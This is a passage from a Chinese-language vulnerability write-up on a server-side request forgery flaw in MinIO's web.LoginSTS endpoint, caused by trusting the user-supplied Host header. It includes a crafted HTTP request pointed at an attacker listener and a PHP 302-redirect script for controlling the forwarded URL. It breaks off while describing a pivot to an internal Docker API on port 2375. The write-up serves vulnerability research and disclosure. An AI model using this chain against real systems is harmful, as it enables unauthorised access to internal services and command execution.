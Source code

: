 ```go
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO为了将请求转发给“自己”，就从用户发送的HTTP头Host中获取到“自己的地址”，并将其作为URL的Host构造了新的URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的Host，进而构造一个SSRF漏洞。

我们来实际测试一下，向`http://192.168.227.131:9000`发送如下请求，其中Host的值是我本地ncat开放的端口（`192.168.1.142:4444`）：

```
POST /minio/webrpc HTTP/1.1
Host: 192.168.1.142:4444
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

![](http://wikioss.peiqi.tech/vuln/minio-4.png)

可以确定这里存在一个SSRF漏洞了。

仔细观察，可以发现这是一个POST请求，但是Path和Body都没法控制，我们能控制的只有URL中的一个参数`WebIdentityToken`。

但是这个参数经过了URL编码，无法注入换行符等其他特殊字符。这样就比较鸡肋了，如果仅从现在来看，这个SSRF只能用于扫描端口。我们的目标当然不仅限于此。

幸运的是，Go默认的http库会跟踪302跳转，而且不论是GET还是POST请求。所以，我们这里可以302跳转来“升级”SSRF漏洞。

使用PHP来简单地构造一个302跳转：

```php
<?php
header('Location: http://192.168.1.142:4444/attack?arbitrary=params');
```

将其保存成index.php，启动一个PHP服务器：

![](http://wikioss.peiqi.tech/vuln/minio-5.png)

将Host指向这个PHP服务器。这样，经过一次302跳转，我们收获了一个可以控制完整URL的GET请求：

![](http://wikioss.peiqi.tech/vuln/minio-6.png)

放宽了一些限制，结合前面我对这套内网的了解，我们可以尝试攻击Docker集群的2375端口。

2375是Docker API的接口，使用HTTP协议通信，默认不会监听TCP地址，这里可能是为了方便内网其他机器使用所以开放在内网的地址里了。那么，我们是否可以通过SSRF来攻击这个接口呢？

在Docker未授权访问的情况下，我们通常可以使用`docker run`或`docker exec`来在目标容器里执行任意命令（如果你不了解，可以参考[这篇文章](http://blog.neargle.com/SecNewsBak/drops/新姿势之Docker Remote API未授权访问漏洞分析和利用.html)）。但是翻阅Docker的文档可知，这两个操作的请求是`POST /containers/create`和`POST /containers/{id}/exec`。
